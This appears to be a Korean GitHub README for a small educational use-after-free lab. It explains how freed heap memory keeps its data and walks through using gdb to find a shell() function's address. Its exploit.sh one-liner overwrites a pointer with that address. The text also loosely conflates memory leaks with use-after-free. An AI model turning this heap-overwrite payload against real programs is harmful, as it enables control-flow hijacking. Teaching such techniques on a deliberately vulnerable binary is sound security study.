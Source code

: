 # UAF_TEST
UAF_vulnerability_Test_For_GC

![Reachablity](./reachable.png)

왜 메모리 leak이 위험한지에 대해 설명하고 싶었다.

UAF란
Use After Free의 약자로 말 그대로 free한 뒤에 사용 하면 나타나는 취약점이다. \
uaf_test.cpp를 보면 정확한 UAF취약점은 아니지만 아무튼 free한 뒤에 heap영역에 접근 하고있다.

이는 OS의 Heap 관리를 어떻게 하는지 알아야하는데 OS는 Free를 할때 메모리가 사용되지 않음을 체크하고 Data는 그냥 놔둔다. 그래서 이러한 exploit이 가능한 것이다. 

## 사용법
>$git clone https://github.com/kimsos0723/UAF_TEST \
>$ make 

>$ ./exploit.sh 
>>이것을 했을때 오류가 난다면 

>$ apt install gdb \
>$ gdb -q ./uaf \
>(gdb) info func 
> ~~~
>Non-debugging symbols:
>0x0000000000400438  _init
>0x0000000000400460  free@plt
>0x0000000000400470  puts@plt
>0x0000000000400480  malloc@plt
>0x0000000000400490  scanf@plt
>0x00000000004004a0  _start
>0x00000000004004d0  _dl_relocate_static_pie
>0x00000000004004e0  deregister_tm_clones
>0x0000000000400510  register_tm_clones
>0x0000000000400550  __do_global_dtors_aux
>---Type <return> to continue, or q <return> to quit---
>0x0000000000400580  frame_dummy
>0x0000000000400587  printName(void*)
>0x00000000004005a2  shell()
>0x00000000004005b5  main
>0x0000000000400660  __libc_csu_init
>0x00000000004006d0  __libc_csu_fini
>0x00000000004006d4  _fini
>~~~
>>이것을 보고 \
>>$ vim ./exploit.sh
>>~~~python
>>(python -c 'print "a"*16+"{ shell()의 주소를 little endian으로 }"') | ./uaf 
>>~~~
>> 이렇게 하면된다.


